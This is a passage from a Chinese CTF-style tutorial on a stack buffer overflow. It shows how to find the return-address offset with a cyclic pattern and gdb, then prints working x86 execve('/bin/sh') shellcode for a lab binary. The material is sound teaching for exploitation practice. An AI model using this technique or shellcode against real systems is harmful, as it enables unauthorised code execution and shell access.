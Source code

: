 ```
python pattern.py create 150 

```

来生成一串测试用的150个字节的字符串：

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

```

随后我们使用gdb ./level1调试程序。

```
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()

```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140

```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。

接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

```

这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。
